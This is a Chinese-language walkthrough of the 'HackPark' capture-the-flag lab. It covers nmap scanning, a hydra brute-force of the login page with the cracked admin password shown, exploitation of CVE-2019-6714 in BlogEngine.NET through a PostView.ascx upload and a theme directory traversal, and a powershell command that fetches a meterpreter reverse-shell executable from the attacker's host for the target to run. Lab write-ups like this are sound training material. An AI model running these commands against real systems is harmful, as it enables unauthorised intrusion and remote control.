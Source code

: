 # HackPark

循例 nmap 扫，带-Pn参数

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nmap</font> 10.10.161.251 <font color="#9755B3">-Pn</font></pre>

只开了80和3389

上web看看，

题目提问网站的小丑图片中的小丑叫什么名字
网站上找不到，把图片也下载下载strings看看有没有东西，很遗憾没有

然后通过社交得知，这是一部电影 小丑回魂中的🤡，百度得知名字

    Pennywise

在刚刚找名字的时候找到了后台登录页面

题目要求使用hydra爆破

    hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php：log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1：S=Location'

<pre>[<font color="#47D4B9"><b>80</b></font>][<font color="#47D4B9"><b>http-post-form</b></font>] host: <font color="#47D4B9"><b>10.10.161.251</b></font>   login: <font color="#47D4B9"><b>admin</b></font>   password: <font color="#47D4B9"><b>1qaz2wsx</b></font></pre>

hydra爆web稍微确实是麻烦了点，直接用burp会更方便

收集到信息:BlogEngine.NET v3.3.6.0

    searchsploit BlogEngine.NET

CVE-2019-6714

存在任意文件上传/rce/目录穿越

将payload的ip和port修改为我们的，并且将文件名修改为

    PostView.ascx

上传后，netcat开启监听，并访问：

    http://10.10.161.251/?theme=../../App_Data/files

成功getshell

题目要求使用metasploit，首先使用msfvenom生成payload

攻击机开启http服务，目标上使用powershell下载payload

    powershell -c "wget http://10.11.17.14:8000/windows-tools_and_exp/meterpreter_rev_she11.exe"

msfconsole开启监听

目标上运行：

    meterpreter_rev_she11.exe

对windows方面比较差，后面看着别人的wp做.......
